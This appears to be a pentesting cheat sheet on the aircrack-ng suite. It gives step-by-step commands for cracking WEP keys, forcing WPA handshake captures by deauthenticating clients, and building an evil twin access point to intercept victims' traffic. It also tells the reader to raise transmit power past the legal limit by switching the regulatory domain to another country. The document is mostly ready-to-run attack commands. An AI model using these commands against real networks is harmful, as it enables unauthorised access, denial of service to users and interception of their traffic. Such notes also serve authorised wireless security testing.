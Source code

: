 # Aircrack-ng

TODO: Fill this information of covering aircrack-ng suite tools usage

## Help Menu

## Usage

```
# ip link set <interface> down
```

```
# ip link set <interface> up
```

### WEP

WiFi in Monitor mode

```
# airmon-ng start wlan0
```

Search for wireless

```
# airodump-ng mon0
```

Capture or inject

```
# airodump-ng --bssid <bssid> -c <#> -w WEPcrack mon0
```

Inject ARP to capture IVs

```
# aireplay-ng -e -b <bssid> -h <mac> mon0
```

Crack (needs several thousand IVs)

```
# aircrack-ng WEPcrack.cap
```

### WPA

Start airmon-ng

```
# airmon-ng start wlan0
```

Run airodump

```
# airodump-ng -i mon0
```

Find the network you want to access then wait for `WPA handshake: ##:##:##:##:##:##`

```
# airodump-ng --bssid <bssid> -c 11 -w cowpatty mon0
```

Kick someone else off

```
# aireplay-ng --deauth 100 -a <bssid> mon0
```

Dictionary or other, crack the password

```
# aircrack-ng WPAcrack.cap -w <wordlist>
```

### Evil Twin

Our first task will be to creating an evil twin access point. Many new hackers are anxious to crack Wi-Fi passwords to gain some free bandwidth (don't worry, we'll get to that), but there are so many other Wi-Fi hacks that are far more powerful and put so much more at risk than a bit of bandwidth.

What's an Evil Twin AP?
The evil twin AP is an access point that looks and acts just like a legitimate AP (using the same SSID) and entices the end-user to connect to our access point. Our aircrack-ng suite has a tool, airbase-ng, that can be used to convert our wireless adapter into an access point. This is a powerful client-side hack that will enable us to see all of the traffic from the client and conduct a man-in-the middle attack.

Many corporate offices, hotels, coffee shops, etc. employ this type of security.

Start airmon

```
iwconfig
airmon-ng start wlan0
```

Start airdump then wait for ssid to show 

```
airodump-ng mon0
```

Create new AP with same ssid and mac

```
airbase-ng -a <bssid> --essid <ssid> -c <channel> mon0
```

Deauth your target

```
aireplay-ng --deauth 0 -a <bssid>
```

Run your AP at max power (27 is max 'legal' power)

```
iwconfig wlan0 txpower 27 
```

Bypass restrictions is by setting to another domain/country then wait for connection

```
iw reg set BO

iwconfig wlan0 txpower 30
```

---
## References

- [Hacktricks: Pentesting Wi-Fi](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi)